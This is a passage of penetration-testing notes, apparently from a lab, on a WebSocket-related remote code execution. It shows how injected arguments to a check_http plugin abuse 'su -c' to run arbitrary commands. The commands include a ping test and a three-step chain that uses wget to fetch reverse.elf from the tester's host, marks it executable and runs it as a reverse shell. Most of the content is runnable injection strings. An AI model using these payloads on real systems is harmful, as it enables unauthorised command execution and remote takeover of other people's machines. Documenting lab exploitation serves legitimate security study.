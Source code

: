 ![Untitled](WebSocket%20RCE%209355aa919b854eefafe37a538fe64323/Untitled%202.png)

If we inject `--help` as the second injected command, we get a help message for the `su` command. As such, we can use `su -c` to inject any command that we want. 

![Untitled](WebSocket%20RCE%209355aa919b854eefafe37a538fe64323/Untitled%203.png)

A possible command could look like this

```bash
su user -c '<input>'
su user -c './check_http -I <ip> -p 80 -k 'test -c 'echo "test"' 

Injection string for multi-word command:
./check_http -I 192.168.45.239 -p 80 -k 'test1 -c 'echo "test" 

Ping test:
./check_http -I 192.168.45.239 -p 80 -k 'test1 -c 'ping -c 4 192.168.45.239

Shell:
./check_http -I 192.168.45.239 -p 80 -k 'test1 -c 'wget http://192.168.45.239:8000/reverse.elf -O /tmp/reverse.elf
./check_http -I 192.168.45.239 -p 80 -k 'test1 -c 'chmod +x /tmp/reverse.elf
./check_http -I 192.168.45.239 -p 80 -k 'test1 -c '/tmp/reverse.elf

```